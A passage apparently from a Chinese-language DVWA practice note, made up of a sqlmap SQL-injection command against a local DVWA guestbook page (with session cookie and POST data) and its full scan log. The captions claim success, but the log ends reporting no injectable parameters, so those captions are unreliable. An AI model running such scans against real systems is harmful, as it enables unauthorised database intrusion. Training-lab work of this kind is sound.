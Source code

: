 ```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/xss_s/" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4" --data="txtName=111&mtxMessage=222&btnSign=Sign+Guestbook" --dbs

//成功溢出如下

[11:48:29] [INFO] testing connection to the target URL
[11:48:29] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[11:48:29] [INFO] testing if the target URL is stable
[11:48:30] [WARNING] target URL is not stable. sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison' and provide a string or regular expression to match on
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] C
[11:48:44] [INFO] testing if POST parameter 'txtName' is dynamic
[11:48:44] [WARNING] POST parameter 'txtName' does not appear to be dynamic
[11:48:44] [WARNING] heuristic (basic) test shows that POST parameter 'txtName' might not be injectable
[11:48:44] [INFO] heuristic (XSS) test shows that POST parameter 'txtName' might be vulnerable to cross-site scripting attacks
[11:48:44] [INFO] testing for SQL injection on POST parameter 'txtName'
[11:48:44] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:48:44] [WARNING] reflective value(s) found and filtering out
[11:48:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:48:45] [WARNING] using unescaped version of the test because of zero knowledge of the back-end DBMS. You can try to explicitly set it with option '--dbms'
[11:48:48] [WARNING] POST parameter 'txtName' does not seem to be injectable
[11:48:48] [INFO] testing if POST parameter 'mtxMessage' is dynamic
[11:48:48] [INFO] confirming that POST parameter 'mtxMessage' is dynamic
[11:48:48] [INFO] POST parameter 'mtxMessage' is dynamic
[11:48:48] [WARNING] heuristic (basic) test shows that POST parameter 'mtxMessage' might not be injectable
[11:48:48] [INFO] heuristic (XSS) test shows that POST parameter 'mtxMessage' might be vulnerable to cross-site scripting attacks
[11:48:48] [INFO] testing for SQL injection on POST parameter 'mtxMessage'
[11:48:48] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:48:49] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:48:53] [WARNING] POST parameter 'mtxMessage' does not seem to be injectable
[11:48:53] [INFO] testing if POST parameter 'btnSign' is dynamic
[11:48:53] [INFO] confirming that POST parameter 'btnSign' is dynamic
[11:48:53] [INFO] POST parameter 'btnSign' is dynamic
[11:48:53] [WARNING] heuristic (basic) test shows that POST parameter 'btnSign' might not be injectable
[11:48:53] [INFO] testing for SQL injection on POST parameter 'btnSign'
[11:48:53] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:48:54] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:48:57] [WARNING] POST parameter 'btnSign' does not seem to be injectable
[11:48:57] [CRITICAL] all tested parameters appear to be not injectable. Try to increase '--level'/'--risk' values to perform more tests. Also, you can try to rerun by providing either a valid value for option '--string' (or '--regexp'). If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could retry with an option '--tamper' (e.g. '--tamper=space2comment')
```
**成功注入后截图 **